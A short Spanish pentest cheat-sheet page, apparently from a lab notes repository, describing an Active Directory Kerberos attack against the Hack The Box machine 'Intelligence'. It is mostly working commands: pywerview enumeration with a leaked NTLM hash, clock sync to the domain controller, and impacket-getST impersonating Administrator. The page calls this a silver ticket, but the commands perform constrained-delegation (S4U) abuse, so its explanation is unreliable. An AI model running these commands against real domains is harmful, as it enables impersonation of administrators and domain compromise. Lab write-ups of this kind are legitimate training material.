 # Silver Ticket Attack

Cuando la contraseña de un servicio es comprometida, es posible generar un TGS válido para que un usuario arbitrario se autentique a este servicio.&#x20;



## Explotación

Listar SPN del servicio dado:

```bash
# Con la herramienta pywerview es posible listar mucha información de un servicio 
pywerview get-netcomputer -u 'svc_int$' --hashes '9ee6005cc12d8337df1dc46d481ec7ce:9ee6005cc12d8337df1dc46d481ec7ce' -t 10.10.10.248 --full-data

# Y en el campo msds-allowedtodelegateto se obtiene el SPN
WWW/dc.intelligence.htb
```

Con esto podremos usar impacket para generar un archivo ccache que nos servirá para autenticarnos:

```bash
# Sincronizar reloj local con el del DC
rdate -n 10.10.10.248
ntpdate 10.10.10.248

# Generar el archivo ccache
impacket-getST -spn WWW/dc.intelligence.htb -impersonate Administrator intelligence.htb/svc_int -hashes :9ee6005cc12d8337df1dc46d481ec7ce
```
